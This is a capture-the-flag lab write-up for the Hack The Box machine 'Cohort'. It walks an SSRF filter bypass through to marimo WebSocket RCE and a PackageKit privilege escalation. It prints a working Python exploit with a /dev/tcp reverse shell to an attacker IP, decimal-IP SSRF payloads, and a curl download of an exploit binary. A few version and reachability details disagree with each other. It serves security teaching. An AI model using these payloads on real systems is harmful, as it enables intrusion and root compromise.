

# Cohort

<p align="center">
  
</p>

# Table of Contents
- [Context](#context)
- [Walkthrough](#walkthrough)
  * [User Flag](#user-flag)
  * [SSRF 101](#ssrf-101)
  * [Root Flag](#root-flag)
- [Attack Chain](#attack-chain)
  * [Attack Tree](#attack-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://app.hackthebox.com/machines/Cohort](https://app.hackthebox.com/machines/Cohort)

Suggested tools: `nmap`, `curl`, `jq`, `gobuster`, `ffuf`, `setsid`, `curl` 

# Walkthrough

## User Flag

**Initial Port Scan**

An Nmap service/version scan against the target `10.129.46.230` identified three open TCP ports: `22` (SSH), `80` (HTTP), and `443` (HTTPS). This indicates the host exposes a remote administration service alongside a web application served over both unencrypted and TLS-encrypted channels, making the web stack the most likely initial attack surface pending further enumeration of service versions and any virtual hosts or TLS certificate metadata. Hostname has been added to `/etc/hosts` as `cohort.htb`.

```bash
$ nmap -sC -sV 10.129.46.230 -vv > nmap_initial.txt
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN9Ju3bTZsFozwXY1B2KIlEY4BA+RcNM57w4C5EjOw1QegUUyCJoO4TVOKfzy/9kd3WrPEj/FYKT2agja9/PM44=
|   256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH9qI0OvMyp03dAGXR0UPdxw7hjSwMR773Yb9Sne+7vD

80/tcp  open  http     syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://cohort.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)

443/tcp open  ssl/http syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_ssl-date: TLS randomness does not represent time
|_http-title: Did not follow redirect to https://cohort.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
| ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
```

**Quick Header Check**

A HEAD request to `https://cohort.htb` returned `HTTP/1.1 200 OK` from `nginx/1.24.0 (Ubuntu)`, with `Content-Length: 908`, `Last-Modified: Mon, 01 Jun 2026 20:53:47 GMT`, and an `ETag` of `"6a1df15b-38c"`. The response is a static HTML page (no dynamic headers such as `Set-Cookie` or backend framework signatures are present), and the small content length suggests a simple landing page rather than a full application, warranting a visual review of the rendered site and its source for links, comments, or hidden paths.

```bash
# The -k flag skips TLS certificate validation (HTB certs are often self-signed), and -I fetches headers only.
$ curl -sk https://cohort.htb -I                                                     
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Date: Fri, 07 Aug 2026 13:19:52 GMT
Content-Type: text/html
Content-Length: 908
Last-Modified: Mon, 01 Jun 2026 20:53:47 GMT
Connection: keep-alive
ETag: "6a1df15b-38c"
Accept-Ranges: bytes
```

**SSRF Test**

The "Client Insights" feature at `cohort.htb/portal.html` accepts a "Source URL" that the server fetches and echoes back, explicitly stating that internal and loopback addresses are rejected. To validate the mechanism, a listener was started locally with `python3 -m http.server 8080`, and the attacker-controlled address `http://10.10.14.168:8080` was submitted as the Source URL. The application returned `Reachable. HTTP 200 (text/html; charset=utf-8)` along with the full response body from the local server, including a directory listing exposing `nmap_initial.txt`, confirming a functional Server-Side Request Forgery (SSRF) primitive that both performs an outbound fetch on attacker-supplied input and reflects the response content back to the client.

A local file fetch test using `file:///etc/passwd` fails due to “`Only http and https sources are supported.`” filter. That rules out direct LFI via scheme abuse; the SSRF is confined to HTTP(S) fetches. However, IP address encoding bypass works using this endpoint: `http://2130706433:5000/health`. 




## SSRF 101

**SSRF 101 — Blocklist Bypass via Decimal IP Encoding**

**Offsec:** The filter is almost certainly doing a string match against `127.`, `10.`, `192.168.`, `localhost`, etc. before the fetch — a blocklist, not a resolver-aware check. `2130706433` is just `127.0.0.1` expressed as a 32-bit unsigned decimal (`127*16777216 + 0*65536 + 0*256 + 1`), and most HTTP client libraries (requests, curl, Go's net/http) happily accept and resolve decimal, octal (`0177.0.0.1`), hex (`0x7f000001`), and even mixed-notation IPs at the socket layer — the string never has to contain `127.0.0.1` to land there. Since the app already proved it fetches and reflects arbitrary reachable content, the natural next pivot from `http://2130706433:5000/health` is walking the loopback port range for other internal services, then trying the cloud metadata address in the same decimal form (`http://2852039166/latest/meta-data/` for `169.254.169.254`) if this is cloud-hosted, since that's the highest-value SSRF target when present.

**Defsec:** Never validate the raw string — resolve the hostname first, then check the *resulting* IP (post-resolution, post-redirect) against a strict allowlist of permitted destinations, since blocklists will always miss some encoding (decimal/octal/hex/IPv6-mapped `::ffff:127.0.0.1`/enclosed zero-padding). Re-validate after every redirect hop (SSRF via 30x redirect chains bypasses even correct initial checks), disable protocol/scheme switching mid-request, and if metadata services are in scope, block `169.254.169.254` at the network layer (or require IMDSv2 token headers) rather than relying on app-layer filtering alone.

**Local Open Ports**

With the loopback filter bypass confirmed using the decimal IP representation `2130706433` (equivalent to `127.0.0.1`), a scripted sweep of common internal service ports was performed by submitting each candidate port to the portal's `/api/validate` endpoint and recording the `fetched_status` field. Out of a broad list spanning standard service, database, and admin-panel ports, two internal-only HTTP services were identified: port `5000`, returning `HTTP 405` with a JSON body identifying itself as `"service": "cohort-insights"`, and port `8888`, returning `HTTP 200` and serving a login page for `marimo`, a Python reactive notebook tool, requiring an `Access Token / Password` to authenticate. Neither service was exposed on the external port scan, confirming both are bound to loopback and only reachable through the SSRF primitive.

```bash
$ for port in 21 22 23 25 53 80 110 111 135 139 143 443 445 993 995 1433 1521 2049 2375 2376 3000 3001 3306 3389 4444 5000 5001 5432 5601 5672 5900 5985 5986 6379 6443 7001 7474 8000 8001 8080 8081 8443 8888 9000 9001 9090 9200 9300 9418 11211 15672 27017 27018 28017 50000 50070; do
  printf "Port %5s → " "$port"
  /usr/bin/curl -sk -X POST https://cohort.htb/api/validate \
    -H "Content-Type: application/json" \
    -d "{\"url\":\"http://2130706433:${port}/\",\"format\":\"csv\",\"method\":\"GET\"}" \
    | /usr/bin/jq -r '.fetched_status // .message // "error"'
done | grep -iv "could not"
Port    80 → 200
Port   443 → 400
Port  5000 → 405
Port  8888 → 200
```

**Potential Usernames**

The "Team" section of the public site discloses two named individuals: `Mara Quinteros` (Founder, retention modelling) and `Devin Oyelaran` (Analytics engineering). These names are candidate sources for username permutations (e.g. `mara`, `mquinteros`, `m.quinteros`, `devin`, `doyelaran`, `d.oyelaran`) to be tested against exposed authentication surfaces, specifically SSH on port `22` and the marimo access-token prompt on internal port `8888`, pending further credential material or a password list.


**Virtual Host Leaked**

A request to `/status` on the public-facing nginx edge (no SSRF required, reachable directly on port `443`) returned a JSON service map disclosing internal upstream routing. The response identified the service as `cohort-edge`, generated by nginx, and listed three upstreams: `marketing` serving the static site from `/var/www/cohort`, `insights-api` proxying `cohort.htb/api/` to `127.0.0.1:5000`, and `notebooks` proxying a distinct virtual host, `nb-1be3782a8afd3ad5.cohort.htb`, to `127.0.0.1:8888` (the marimo instance identified earlier), annotated with the note "internal analyst workspace, not for external use." This disclosed a non-guessable, randomly-named vhost that had not surfaced during dictionary-based vhost fuzzing, and represents a potential direct externally-reachable path to the internal marimo notebook service, bypassing the SSRF primitive used previously.

```bash
curl -sk -X POST https://cohort.htb/api/validate -H "Content-Type: application/json" -d '{"url":"http://2130706433/status","format":"csv"}'
{
  "service": "cohort-edge",
  "upstreams": [
    {"name": "insights-api", "target": "127.0.0.1:5000"},
    {"name": "notebooks", "host": "nb-1be3782a8afd3ad5.cohort.htb", "target": "127.0.0.1:8888"}
  ]
}
```

**Marimo CVE Exploit**

The internal marimo notebook service, previously reachable only through the blind SSRF, was found directly exposed via the vhost `nb-1be3782a8afd3ad5.cohort.htb`, discovered through the `/status` endpoint disclosure. Marimo versions prior to `0.23.0` are affected by `CVE-2026-39987`, a critical pre-authentication remote code execution vulnerability in which the `/terminal/ws` WebSocket endpoint fails to call `validate_auth()`, unlike other authenticated endpoints, granting a full PTY shell to any client regardless of the configured access token. The public proof-of-concept (`Nxploited/CVE-2026-39987`, cloned to `/home/kali/ctf_stuff/offsec/htb_cohort/CVE-2026-39987/CVE-2026-39987.py`) required two local fixes before it would connect successfully against this target: first, the script's hardcoded `ssl=None` parameter at line `1112` was incompatible with the installed `websockets 16.0` library when connecting over `wss://`, and was patched to construct a proper `ssl.SSLContext` with certificate verification disabled (consistent with the target's self-signed certificate); second, the default `CONNECT_TIMEOUT` of `8` seconds was insufficient for the handshake latency through this environment and was raised to `20` seconds. With both fixes applied and `targets.txt` set to `wss://nb-1be3782a8afd3ad5.cohort.htb`, the exploit successfully connected and returned an authenticated PTY as user `marimo` (`uid=1000`) on host `cohort`, confirming full unauthenticated remote code execution.

```bash
# /home/kali/ctf_stuff/offsec/htb_cohort/CVE-2026-39987/CVE-2026-39987.py
Fix 1 (line ~1112) — SSL context for wss:// connections:
_ssl_ctx = None
if ws_url.startswith("wss://"):
    _ssl_ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
    _ssl_ctx.check_hostname = False
    _ssl_ctx.verify_mode = ssl.CERT_NONE

Fix 2 (line 61):
CONNECT_TIMEOUT = 20  # was 8

targets.txt:
wss://nb-1be3782a8afd3ad5.cohort.htb

Result:
wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws
uid=1000(marimo) groups=... host=cohort

```

**User Flag Retrieval**

With unauthenticated RCE established via `CVE-2026-39987` as the `marimo` user, the flag file was read directly through the WebSocket terminal session using `cat /home/marimo/user.txt`, returning the flag value. This confirms full user-level compromise of the `cohort.htb` host through the SSRF-to-internal-service discovery chain, culminating in the marimo pre-authentication WebSocket vulnerability.

```bash
# Exploit script including stable reverse shell
import socket, ssl, base64, os, struct, time, select

TARGET_IP = "10.129.46.230"   # cohort.htb box IP (from nmap)
HOST = "nb-1be3782a8afd3ad5.cohort.htb"
PATH = "/terminal/ws"

def connect():
    raw = socket.create_connection((TARGET_IP, 443), timeout=5)
    ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE
    s = ctx.wrap_socket(raw, server_hostname=HOST)
    key = base64.b64encode(os.urandom(16)).decode()
    req = (f"GET {PATH} HTTP/1.1\r\nHost: {HOST}\r\nUpgrade: websocket\r\n"
           f"Connection: Upgrade\r\nSec-WebSocket-Key: {key}\r\n"
           f"Sec-WebSocket-Version: 13\r\nOrigin: https://{HOST}\r\n\r\n")
    s.sendall(req.encode())
    s.settimeout(5)
    resp = b""
    while b"\r\n\r\n" not in resp:
        resp += s.recv(4096)
    return s

def send_text(s, text):
    payload = text.encode()
    header = bytearray()
    header.append(0x81)  # FIN + text frame opcode

    mask_bit = 0x80
    length = len(payload)
    if length <= 125:
        header.append(mask_bit | length)
    elif length <= 0xFFFF:
        header.append(mask_bit | 126)
        header += struct.pack(">H", length)
    else:
        header.append(mask_bit | 127)
        header += struct.pack(">Q", length)

    mask_key = os.urandom(4)
    header += mask_key
    masked = bytearray(payload)
    for i in range(len(masked)):
        masked[i] ^= mask_key[i % 4]

    s.sendall(bytes(header) + bytes(masked))

def recv_frames(s, duration=3):
    end = time.time() + duration
    out = b""
    while time.time() < end:
        r, _, _ = select.select([s], [], [], 0.5)
        if not r:
            continue
        try:
            chunk = s.recv(65536)
        except socket.timeout:
            continue
        if not chunk:
            break
        out += chunk

    result = b""
    buf = out
    while len(buf) >= 2:
        b0, b1 = buf[0], buf[1]
        opcode = b0 & 0x0F
        masked = (b1 & 0x80) != 0
        length = b1 & 0x7F
        offset = 2

        if length == 126:
            if len(buf) < offset + 2:
                break
            length = struct.unpack(">H", buf[offset:offset + 2])[0]
            offset += 2
        elif length == 127:
            if len(buf) < offset + 8:
                break
            length = struct.unpack(">Q", buf[offset:offset + 8])[0]
            offset += 8

        if masked:
            if len(buf) < offset + 4:
                break
            mask_key = buf[offset:offset + 4]
            offset += 4
        else:
            mask_key = None

        if len(buf) < offset + length:
            break

        payload = bytearray(buf[offset:offset + length])
        if mask_key:
            for i in range(len(payload)):
                payload[i] ^= mask_key[i % 4]

        if opcode in (0x1, 0x2):  # text or binary frame
            result += bytes(payload)

        buf = buf[offset + length:]

    return result

if __name__ == "__main__":
    LHOST = "10.10.14.168" # Change this!
    LPORT = "4444"

    s = connect()
    recv_frames(s, 3)
    send_text(s, f"setsid nohup bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1' >/dev/null 2>&1 & disown\r")
    print(recv_frames(s, 4).decode(errors="replace"))
    s.close()
```

## Root Flag

**PackageKit Privilege Escalation Vector Identification**

Manual enumeration of installed packages on `cohort` as the `marimo` user identified `PackageKit` version `1.2.8-2ubuntu1.5` (`pkcon --version`), a system service present on many Linux distributions that abstracts package management operations (install, remove, update) behind a D-Bus interface, typically callable by unprivileged users through `polkit`-mediated permissions. This version falls within the range affected by `CVE-2026-41651`, publicly disclosed by Deutsche Telekom's Red Team as "Pack2TheRoot" (CVSS 8.1–8.8), a TOCTOU (Time-Of-Check to Time-Of-Use) race condition in PackageKit's transaction finalization logic affecting all versions from `1.0.2` through `1.3.4`. The flaw allows a local unprivileged user to manipulate the timing between PackageKit validating a package installation request and actually executing it, enabling substitution of a malicious `.deb` package after validation but before installation, resulting in arbitrary code execution with root privileges via the privileged PackageKit daemon. No password or prior root access is required, only local shell access, which was already established through the marimo pre-authentication RCE.

```bash
pkcon --version
1.2.8

dpkg -l | grep -i packagekit
packagekit                 1.2.8-2ubuntu1.2   amd64
libpackagekit-glib2-18     1.2.8-2ubuntu1.5    amd64

CVE-2026-41651 (Pack2TheRoot)
Affected: PackageKit 1.0.2 - 1.3.4
Type: TOCTOU race condition in transaction finalization
Impact: Local unprivileged user -> root via malicious .deb substitution
```

**Exploit and Flag**

The PoC exploit binary was hosted on the attacking machine via `python3 -m http.server 8080` and pulled onto the target using `curl -O <http://10.10.14.168:8080/exploit.bin\`> from `/tmp`, followed by `chmod +x exploit.bin`. The binary was executed in the background with `nohup /tmp/exploit.bin >/tmp/pk.log 2>&1 &`, exploiting the TOCTOU race condition in PackageKit's transaction finalization logic to trigger installation of a malicious package as root. After a short delay, the exploit produced `/tmp/.suid_bash`, a setuid ELF binary owned by root, confirmed via `file .suid_bash`. Executing `/tmp/.suid_bash -p -c 'id; cat /root/root.txt'` preserved the inherited setuid bit (`-p`), returning `euid=0(root)` and disclosing the contents of `/root/root.txt`, confirming full root compromise of the `cohort.htb` host.

```bash
python3 -m http.server 8080
curl -O http://10.10.14.168:8080/exploit.bin
chmod +x exploit.bin
nohup /tmp/exploit.bin >/tmp/pk.log 2>&1 &
sleep 12

file .suid_bash
.suid_bash: setuid ELF 64-bit LSB pie executable, x86-64

/tmp/.suid_bash -p -c 'id; cat /root/root.txt'
uid=1000(marimo) gid=1000(marimo) euid=0(root) groups=1000(marimo)
```

# Attack Chain

| Stage | Detail | MITRE |
| --- | --- | --- |
| Reconnaissance | nmap -sC -sV against `10.129.46.230` identifies 22/ssh, 80/http, 443/https (nginx 1.24.0) | T1595.002 |
| Reconnaissance | cohort.htb added to `/etc/hosts`; site identified as "Cohort Analytics" SPA | T1590.005 |
| Resource Development | "Client Insights" portal (`/portal.html`) discovered, exposing a server-side URL-fetch feature (`/api/validate`) | T1588 |
| Exploit Public-Facing Application | SSRF confirmed by pointing Source URL at attacker-controlled python3 -m http.server; response echoed back | T1190 |
| Defense Evasion | Loopback/internal-IP filter bypassed using decimal IP notation 2130706433 (=`127.0.0.1`) | T1090 |
| Network Service Discovery | Scripted SSRF port sweep of `127.0.0.1` identifies internal services on 5000 (cohort-insights) and 8888 (marimo notebook) | T1046 |
| Gather Victim Network Info | `/status` endpoint on public nginx discloses internal upstream map, including hidden vhost `nb-1be3782a8afd3ad5.cohort.htb` → `127.0.0.1`:8888 | T1590.005 |
| Exploit Public-Facing Application | Direct connection to `wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws`, exploiting CVE-2026-39987 (marimo `/terminal/ws` auth-bypass) for unauthenticated RCE | T1190 |
| Execution | Command execution as marimo via WebSocket terminal (id; whoami; hostname) | T1059.004 |
| Ingress Tool Transfer | Reverse shell one-liner delivered via WS terminal, connecting back to nc listener on `10.10.14.168`:4444 | T1105 |
| Collection | user.txt read from `/home/marimo/user.txt` — flag `2da1a29e7299187a3f85daf9c0c32e8c` | T1005 |
| Discovery | pkcon --version / dpkg -l confirm PackageKit 1.2.8, vulnerable to CVE-2026-41651 | T1082 |
| Ingress Tool Transfer | exploit.bin PoC hosted via local HTTP server, pulled to target `/tmp` via curl | T1105 |
| Privilege Escalation | CVE-2026-41651 (Pack2TheRoot) TOCTOU race in PackageKit triggers root-owned setuid binary `/tmp/.suid_bash` | T1068 |
| Collection | root.txt read via `/tmp/.suid_bash` -p -c 'cat /root/root.txt' — flag `22254c3e049005d6108e4ed6717e6bf8` | T1005 |

## Attack Tree

```bash
HTB Cohort (10.129.46.230)
│
├── 80/443 -- nginx 1.24.0, Cohort Analytics SPA
│   └── /portal.html -- "Client Insights" report-source validator
│       └── /api/validate -- SSRF (fetches attacker-supplied URL)
│           └── loopback bypass via decimal IP (2130706433 = 127.0.0.1)
│               ├── internal port scan -> 5000 (cohort-insights), 8888 (marimo)
│               └── /status (public, no SSRF needed) -- leaks internal routing map
│                   └── hidden vhost: nb-1be3782a8afd3ad5.cohort.htb -> 127.0.0.1:8888
│                       └── CVE-2026-39987 -- marimo /terminal/ws auth bypass
│                           └── unauthenticated WebSocket RCE
│                               └── reverse shell -> shell as marimo
│                                   │
│                                   ├── /home/marimo/user.txt
│                                   │   └── [USER FLAG] 2da1a29e7299187a3f85daf9c0c32e8c
│                                   │
│                                   └── PackageKit 1.2.8 (pkcon --version)
│                                       └── CVE-2026-41651 "Pack2TheRoot" (TOCTOU race)
│                                           └── exploit.bin -> /tmp/.suid_bash (root setuid)
│                                               └── /tmp/.suid_bash -p -c 'cat /root/root.txt'
│                                                   └── [ROOT FLAG] 22254c3e049005d6108e4ed6717e6bf8
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Target | IP | `10.129.46.230` |
|  | Hostname | `cohort.htb` |
|  | Open ports | 22, 80, 443 |
| Web / App | Web server | nginx/1.24.0 (Ubuntu) |
|  | SSRF endpoint | `/api/validate` (POST, JSON body {"url":..., "format":...}) |
|  | Loopback bypass | 2130706433 (decimal for `127.0.0.1`) |
|  | Info disclosure | `/status` (public, leaks internal upstream map) |
|  | Internal service | `127.0.0.1`:5000 — cohort-insights |
|  | Internal service | `127.0.0.1`:8888 — marimo notebook |
|  | Hidden vhost | `nb-1be3782a8afd3ad5.cohort.htb` -> `127.0.0.1`:8888 |
| Vulnerabilities | CVE | CVE-2026-39987 — marimo `/terminal/ws` pre-auth RCE |
|  | CVE | CVE-2026-41651 — PackageKit "Pack2TheRoot" TOCTOU LPE |
|  | Vulnerable version | PackageKit 1.2.8-2ubuntu1.2 |
| Exploitation | Exploit script | raw_ws_exploit.py (custom, RFC 6455 WS client) |
|  | Exploit script | [CVE-2026-39987.py](http://cve-2026-39987.py/) (Nxploited, patched for websockets 16.0/timeout) |
|  | Exploit binary | exploit.bin (Pack2TheRoot PoC) |
|  | Reverse shell | bash -c 'bash -i >& `/dev/tcp/10.10.14.168/4444` 0>&1' |
| Discovery | Dropped artifact | `/tmp/.suid_bash` (root-owned setuid ELF) |
| Flags | User flag | `2da1a29e7299187a3f85daf9c0c32e8c` |
|  | Root flag | `22254c3e049005d6108e4ed6717e6bf8` |

# Lab Insights

1. SSRF's real danger is rarely limited to reading a single URL — its true value is as a network-position primitive, letting an attacker borrow the target server's trust boundary to reach services that were never meant to face the internet. Here, a "validate this report URL" feature became a pivot to scan and interact with internal-only services on `127.0.0.1`:5000 and `127.0.0.1`:8888, entirely bypassing the perimeter firewall by riding on the trusted server's own network path (T1090).
2. Loopback and private-range blocklists are trivially bypassed when they filter on string or CIDR matching against one canonical representation of an address rather than normalizing input first. `127.0.0.1` has many equivalent encodings — decimal (2130706433), octal, hex, IPv6-mapped — and a filter that checks for "`127.0.0.1`" or `10.0.0.0/8` textually will miss all of them, turning a "security control" into a false sense of safety (T1090).
3. Verbose internal status/health endpoints are a disproportionately high-value target because they collapse reconnaissance that would otherwise take many requests into one. The `/status` endpoint here didn't leak a flag or credential directly, but it leaked the map — every internal upstream, its target IP:port, and a randomly-named vhost that no wordlist would ever have guessed — which is often more damaging than a single credential since it defines the entire attack surface in one response (T1590.005).
4. Unauthenticated software left reachable — even when nominally protected by a login form — is only as safe as its authentication code path is complete. Marimo's `/terminal/ws` endpoint existed in the same application as properly-authenticated routes, but simply omitted the auth check other endpoints had; this class of bug (auth applied inconsistently across an app's own routes, not application-wide) is common precisely because it doesn't show up in a simple "is auth enabled" check (T1190).